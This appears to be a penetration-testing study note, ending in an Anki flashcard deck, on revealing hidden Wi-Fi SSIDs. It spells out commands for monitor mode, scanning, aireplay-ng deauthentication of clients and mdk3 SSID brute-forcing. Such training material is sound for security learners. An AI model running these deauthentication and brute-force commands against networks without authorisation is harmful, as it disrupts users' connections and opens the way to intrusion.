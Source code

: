 # Chain #8: Finding Hidden SSIDs

Hidden SSIDs are networks that do not broadcast their names. While this may stop casual users from noticing them, attackers and penetration testers can still reveal the SSID with the right techniques.

---

## Step 1: Enable Monitor Mode
Before attempting to discover hidden SSIDs, place your wireless interface into monitor mode so that it captures all frames.
```bash
sudo airmon-ng start wlan0
```
- This creates a monitor interface, usually named `wlan0mon`.
- If interfering processes exist (e.g., `NetworkManager` or `wpa_supplicant`), kill them with:
```bash
sudo airmon-ng check kill
```

---

## Step 2: Scan for Networks with Airodump-ng
Run airodump-ng on the monitor interface to detect visible and hidden SSIDs.
```bash
sudo airodump-ng -c 1 wlan0mon
```
- `-c 1` restricts scanning to channel 1.
- Hidden SSIDs will appear as `ESSID: <length: X>` where `X` is the number of characters.

---

## Step 3A: Detecting Hidden SSID via Deauthentication (WPA2)
If clients are connected to the hidden network, you can reveal the SSID by forcing a reconnect.

1. Start capturing again on the target channel:
```bash
sudo airodump-ng -c 1 wlan0mon
```
2. Send deauthentication packets to the client:
```bash
sudo aireplay-ng -0 10 -a <BSSID> -c <Client_MAC> wlan0mon
```
- `-0` = deauth attack.
- `10` = number of deauth frames to send.
- `-a` = target AP’s MAC address.
- `-c` = client’s MAC address.
- After the client reconnects, `airodump-ng` should display the SSID.

**Note:** This method does not work against WPA3 networks with Protected Management Frames (PMF).

---

## Step 3B: Brute-Forcing Hidden SSID (WPA3 or No Clients)
If no clients are connected, or the AP uses WPA3 with PMF, brute-force methods are required.

### Using mdk3 for Brute-Force:
```bash
sudo mdk3 wlan0mon p -b u -c 1 -t <BSSID>
```
- `p` = probe/ESSID brute-force mode.
- `-b u` = brute-force uppercase characters.
- `-c 1` = channel.
- `-t <BSSID>` = target AP.
- Other modes include:
  - `-b a` = all printable characters.
  - `-b m` = mixed case + numbers.

### Using a Wordlist:
```bash
sudo mdk3 wlan0mon p -f /opt/wordlist.txt -t <BSSID>
```
- `-f` = use a wordlist.
- The tool probes with each word in the list until the AP responds, revealing the SSID.

---

## Step 4: Validate the Revealed SSID
Once the SSID is revealed (via deauth or brute-force), you can:
- Attempt authentication if you have or can capture the PSK.
- Proceed with cracking (see Chain #6).

---

## Anki Deck:
```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

n0rLQp7XbA	Basic	Ops::WiFi Gym::Chain 8: Finding Hidden SSIDs	What is a Hidden SSID?	A Wi-Fi network that does not broadcast its name, appearing as <code>&lt;length: X&gt;</code> in scans until revealed.	wifi
P8Y5kQaRvF	Basic	Ops::WiFi Gym::Chain 8: Finding Hidden SSIDs	What does PMF (Protected Management Frames) prevent?	Prevents deauthentication/disassociation attacks on WPA3 networks.	wifi
wFh2XzL0bD	Basic	Ops::WiFi Gym::Chain 8: Finding Hidden SSIDs	Which tool is used for probing hidden SSIDs via brute-force?	mdk3.	wifi

XcR3oLu8fG	Basic (type in the answer)	Ops::WiFi Gym::Chain 8: Finding Hidden SSIDs	Which command enables monitor mode on <code>wlan0</code>?	<code>sudo airmon-ng start wlan0</code>	wifi
RzL9dTb0sK	Basic (type in the answer)	Ops::WiFi Gym::Chain 8: Finding Hidden SSIDs	Which command kills interfering processes when enabling monitor mode?	<code>sudo airmon-ng check kill</code>	wifi
BqA7sPk4vM	Basic (type in the answer)	Ops::WiFi Gym::Chain 8: Finding Hidden SSIDs	Which command scans channel 1 with airodump-ng using monitor interface <code>wlan0mon</code>?	<code>sudo airodump-ng -c 1 wlan0mon</code>	wifi
GdV5kCm7xO	Basic (type in the answer)	Ops::WiFi Gym::Chain 8: Finding Hidden SSIDs	In a deauthentication attack, which aireplay-ng command sends 10 deauth frames to client <code>&lt;Client_MAC&gt;</code> from AP <code>&lt;BSSID&gt;</code>?	<code>sudo aireplay-ng -0 10 -a &lt;BSSID&gt; -c &lt;Client_MAC&gt; wlan0mon</code>	wifi
LtQ8vDn2yP	Basic (type in the answer)	Ops::WiFi Gym::Chain 8: Finding Hidden SSIDs	Which mdk3 command brute-forces hidden SSIDs with uppercase letters only on channel 1 for AP <code>&lt;BSSID&gt;</code>?	<code>sudo mdk3 wlan0mon p -b u -c 1 -t &lt;BSSID&gt;</code>	wifi
NhM2pJc9wQ	Basic (type in the answer)	Ops::WiFi Gym::Chain 8: Finding Hidden SSIDs	Which mdk3 command brute-forces hidden SSIDs using a wordlist located at <code>/opt/wordlist.txt</code> against AP <code>&lt;BSSID&gt;</code>?	<code>sudo mdk3 wlan0mon p -f /opt/wordlist.txt -t &lt;BSSID&gt;</code>	wifi
```